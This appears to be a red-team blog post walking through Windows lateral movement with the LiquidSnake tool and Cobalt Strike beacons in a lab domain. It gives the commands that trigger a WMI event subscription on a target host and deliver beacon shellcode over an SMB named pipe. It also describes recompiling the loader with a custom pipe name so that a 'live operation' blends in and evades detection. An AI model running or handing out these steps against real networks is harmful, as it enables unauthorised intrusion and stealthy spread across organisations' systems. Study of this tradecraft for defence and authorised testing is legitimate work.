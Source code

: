 ```yaml
---
layout: post
title: Lateral Movement with LiquidSnake
subtitle: Playing with Cobalt Strike and LiquidSnake
thumbnail-img: /assets/posts/liquidsnake/thumb.png
share-img: /assets/posts/liquidsnake/thumb.png
tags: [cobalt strike, liquidsnake, lateral movement]
---
```


[LiquidSnake](https://github.com/RiccardoAncarani/LiquidSnake) is a recently released lateral movement tool, using [WMI event subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) and SMB named pipes for shellcode transfer. The author, [@dottor_morte](https://twitter.com/dottor_morte), has also provided a Cobalt Strike aggressor script for easy integration with beacon.

# Testing Vanilla LiquidSnake
Without modifying the LiquidSnake solution, set the target architecture to `x64` and build - this will be our `execute-assembly` target from beacon.

I've got a beacon running on a Windows 10 system in my lab environment, we'll be using this as the starting point for lateral movement.

![Initial beacon](/assets/posts/liquidsnake/init_beacon.png){: .mx-auto.d-block :}

Using the user context (`REDANIA\vizimir`) already established in beacon, we'll test moving to `oxenfurt.redania.local`. This can be accomplished with beacon's `execute-assembly` function (or better yet, [BOF.NET](https://github.com/CCob/BOF.NET/pull/1)) and the compiled LiquidSnake binary:
~~~
execute-assembly /opt/aggressor/LiquidSnake.exe oxenfurt.redania.local
~~~

![LiquidSnake](/assets/posts/liquidsnake/snake.png){: .mx-auto.d-block :}

Make sure to wait for the full output to be received before continuing - during this time the WMI event sub is being created and subsequently trigged. Once triggered, the target host will be listening on a SMB named pipe for shellcode to be executed. By default, the named pipe used is `\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7`. We'll come back to this value later.

The author has a [BOF](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) and aggressor script which can be used to deliver our beacon shellcode to the listening pipe. I've generated some stageless beacon shellcode tied to the HTTPS listener to send. First, load up the aggressor script:
![Aggressor Script](/assets/posts/liquidsnake/import_aggressorscript.png){: .mx-auto.d-block :}

Lastly, just deliver the shellcode:
~~~
send_shellcode_via_pipe \\oxenfurt\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 /opt/aggressor/beacon.bin
~~~
![Send Shellcode](/assets/posts/liquidsnake/send_shellcode.png){: .mx-auto.d-block :}

And there's our new beacon on the target:
![New Beacon](/assets/posts/liquidsnake/new_beacon.png){: .mx-auto.d-block :}

# Customizing the Named Pipe
If we're to use LiquidSnake on a live operation, we'll likely want to change to named pipe to better blend in. To do this, we'll have to recompile the `CSharpNamedPipeLoader` solution from the LiquidSnake repo.

In `Program.cs` on line `410`, set the pipe name to your preferred value:
~~~csharp
IntPtr hPipe = CreateNamedPipe("\\\\.\\pipe\\MyNewPipeName")
~~~

Make sure the project architecture is set to `x64` and compile. To work the edit into LiquidSnake, [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript) is used:
![GadgetToJScript](/assets/posts/liquidsnake/gadgettojscript.png){: .mx-auto.d-block :}

Base64 up the resulting `.vbs` file:
![Base64 VBS](/assets/posts/liquidsnake/b64_gadget.png){: .mx-auto.d-block :}

Paste that string into the LiquidSnake solution in `Program.cs` on line `29`:
~~~csharp
string vbscript64 = "RnVuY3Rbpb24gQmFzZTY0VG9..."
~~~

Recompile the project and it's back over to Cobalt Strike. Repeat the previously used beacon commands, except this time sub in your custom named pipe value when running `send_shellcode_via_pipe`:
![Modded LiquidSname](/assets/posts/liquidsnake/modded_snake_exec.png){: .mx-auto.d-block :}

Third beacon, this one using the custom pipe name:
![Third Beacon](/assets/posts/liquidsnake/3rd_beacon.png){: .mx-auto.d-block :}